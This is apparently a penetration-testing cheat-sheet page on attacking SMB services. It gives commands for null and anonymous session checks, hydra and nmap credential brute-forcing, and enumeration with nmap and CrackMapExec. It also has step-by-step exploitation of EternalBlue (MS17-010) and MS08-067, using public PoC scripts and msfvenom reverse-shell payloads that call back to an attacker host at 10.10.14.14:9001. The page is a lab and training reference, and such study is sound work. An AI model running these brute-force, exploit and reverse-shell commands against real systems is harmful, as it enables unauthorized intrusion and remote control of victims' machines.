 # SMB

## Theory 

The Server Message Block Protocol (SMB Protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports, and data on a network. It can also carry transaction protocols for authenticated inter-process communication.  

SMB protocols operate on different ports depending on the type of communication:

- **Port 445 (TCP)**: This port is used for direct SMB communication over TCP/IP, including file and printer sharing, remote administration, and inter-process communication.

- **Port 139 (TCP)**: This port is used for SMB over NetBIOS, which is an underlying protocol that SMB relies on for name resolution and session establishment.

## Practice  

### Authentication 

{% tabs %}
{% tab title="Null session" %}
`Null session` refers to an unauthenticated session established with an SMB server where the client does not provide any credentials.
```bash
#SmbClient
smbclient -U '' -N -L '\\<IP>\'

#CrackMapExec
crackmapexec smb <IP> -u '' -p '' --shares
```
{% endtab %}

{% tab title="Anonymous logon" %}
The inclusion of `Anonymous` and `Everyone` access group in the `pre-Windows 2000 compatible` access group allow us to make an anonymous connection over SMB.
Using a random username and password you can check if the target accepts annonymous/guest logon
```bash
#SmbClient
smbclient -N -L '\\<IP>\'
smbclient -U 'a' -N -L '\\<IP>\'

#CrackMapExec
crackmapexec smb <IP> -u 'a' -p '' --shares
```
{% endtab %}

{% tab title="Bruteforce" %}
Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.
```bash
# hydra
hydra -L usernames.txt -P passwords.txt <IP> -V -f smb

# nmap
nmap --script smb-brute -p 445 <IP>
```
{% endtab %}
{% endtabs %}

### Enumerate  

{% tabs %}
{% tab title="nmap" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to enumerate SMB.
```bash
#list the supported protocols and dialects of a SMB server. 
nmap --script="smb-protocols" -p 445 <IP>

#Determines the message signing configuration
nmap --script="smb-security-mode" -p 445 <IP>

#Try to enum SMB sessions/shares/users/domains/groups... with null/anonymous session
nmap --script="smb-enum*" -p 445 <IP>

#Or enum with a valide session
nmap --script="smb-enum-shares" --script-args smbusername=administrator,smbpassword=mypassword_1 -p 445 <IP>
```
{% endtab %}

{% tab title="CrackMapExec" %}
Tools like [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) can be used to enumerate SMB.
```bash
#Enum host with SMB signing not required
crackmapexec 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt

#Enum password policy
crackmapexec $IP -u $USER -p $PASS --pass-pol

#Enum domain users
crackmapexec $IP -u $USER -p $PASS --users

#Enum domain groups
crackmapexec $IP -u $USER -p $PASS --groups

#Enum local groups
crackmapexec $IP -u $USER -p $PASS --local-group

#Enum active sessions
crackmapexec $IP -u $USER -p $PASS --sessions

#Enum shares & access
crackmapexec $IP -u $USER -p $PASS --shares
```
{% endtab %}
{% endtabs %}

### Vulnerabilities  

You may use nmap to scan target for SMB vulnerabilities
```bash
sudo nmap -p 445 --script="smb-vuln-*" <IP>
```

#### EternalBlue - MS17-010  

Eternalblue is a flaw that allows remote attackers to execute arbitrary code on a target system by sending specially crafted messages to the SMBv1 server.

{% tabs %}
{% tab title="Enumerate" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to detect the presence of the EternalBlue vulnerability.
```bash
sudo nmap -p 445 --script="smb-vuln-ms17-010" <IP>
```
{% endtab %}
{% tab title="Exploit - worawit" %}
To exploit, we may use the Worawit [PoC](https://github.com/worawit/MS17-010) on GitHub

- first, we have to edit `USERNAME` and `PASSWORD` at the begening of the `zzz_exploit.py` script.
- Second, generate a reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -f exe -a x86 --platform windows -o pwned.exe
```
- Third, we have to edit , he `smb_pwn` function in `zzz_exploit.py`. This is the action taken with the exploit.
```bash
smb_send_file(smbConn, '/home/v4resk/Documents/www/pwned.exe', 'C', '/pwned.exe')
service_exec(conn, r'cmd /c c:\\pwned.exe')
```
- Fourth, trigger the exploit
```bash
#Exploit
python2.7 zzz_exploit.py <IP>

#Exploit on ntsvcs named pipe
python2.7 zzz_exploit.py <IP> ntsvcs
```
{% endtab %}
{% tab title="Exploit - helviojunior" %}
To exploit, we may use the helviojunior [PoC](https://github.com/helviojunior/MS17-010) on GitHub. He forked the worawit repo and added a single `send_and_execute.py`, which is really handy.

- First, we have to edit `USERNAME` and `PASSWORD` at the begening of the `send_and_execute.py` script
- Second, generate a reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -f exe -a x86 --platform windows -o pwned.exe
```
- Third, trigger the exploit
```bash
#Exploit
python2.7 send_and_execute.py <IP> pwned.exe

#Exploit on ntsvcs named pipe
python2.7 send_and_execute.py <IP> pwned.exe ntsvcs
```
{% endtab %}
{% endtabs %}

#### MS08-067 

The MS08-067 vulnerability is a buffer overflow vulnerability in the Windows Server service.The vulnerability could allow remote code execution if an affected system received a specially crafted RPC request. On Microsoft Windows 2000, Windows XP, and Windows Server 2003 systems, an attacker could exploit this vulnerability without authentication to run arbitrary code.

{% tabs %}
{% tab title="Enumerate" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to to detect the presence of the MS08-067 vulnerability.
```bash
sudo nmap -p 445 --script="smb-vuln-ms08-067" <IP>
```
{% endtab %}

{% tab title="Exploit" %}
To exploit, we may use the jivoi [PoC](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py) on GitHub.

- First, generate a Python shellcode and utilize it to replace the current one in `ms08-067.py`.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

- Second, we have to guess version of windows and language pack. The exploit takes advantage of knowing where some little bits of code will be in memory, and uses those bits on the path to shell.

- Third, trigget the exploit
```bash
#6 is for Windows XP SP3 English (NX)
python ms08-067.py 10.10.10.4 6 445

#4 is for Windows 2003 SP1 English
python ms08-067.py 10.10.10.4 4 445
```

{% endtab %}
{% endtabs %}


## Resources

{% embed url="https://0xdf.gitlab.io/2019/02/21/htb-legacy.html" %}